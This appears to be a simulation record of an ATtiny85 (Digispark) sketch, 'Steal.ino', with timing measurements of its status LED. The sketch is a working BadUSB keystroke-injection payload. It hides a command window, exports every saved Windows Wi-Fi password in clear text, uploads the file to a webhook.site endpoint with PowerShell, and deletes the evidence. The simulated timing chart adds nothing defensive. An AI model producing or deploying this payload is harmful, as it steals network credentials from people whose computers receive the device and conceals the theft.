
The sketch below on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 112.0 s:

Timing chart, 0 to 113.5 s (numbered marks = the images above):


The sketch:

Steal.ino
```cpp
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {

  DigiKeyboard.update(); // It is essential that DigiKeyboard.update() is called regularly (the beginning of the loop is good) to maintain USB communication. Using DigiKeyboard.delay() will automatically spam DigiKeyboard.update() calls during the delay period.
  DigiKeyboard.sendKeyStroke(0); // When digikeyboard first starts, it sometimes misses the first key press. Using DigiKeyboard.sendKeystroke(0) makes it send a key stroke that the computer won’t print.
  DigiKeyboard.delay(3000); // DigiKeyboard.delay() will allow the USB interface to enumerate, which is essential before you can communicate in any form over the interface.

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run opens...key = R....Modifier = windows key = MOD_GUI_LEFT
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible

  DigiKeyboard.delay(500); // delay needed for cursor to select the cmd window

  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); // Left Alt + Space activates the Menu of cmd window
  DigiKeyboard.sendKeyStroke(KEY_M); //Pressing M will help in getting to Move option of Menu of cmd window
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN); // It will drag cmd window down the taskbar
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling

  DigiKeyboard.delay(100);

  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<your id> -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);

  digitalWrite(1, HIGH); //turn on led when program finishes

  // After Our work is done..delay so doesn't go in loop
  DigiKeyboard.delay(90000); // have 90 seconds till LED will remain ON.
  digitalWrite(1, LOW); // Turn Off the LED
  DigiKeyboard.delay(8000); //again 8 sec delay

}
```

Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 7.0 s, → LOW 90.0 s later, → HIGH 15.0 s later
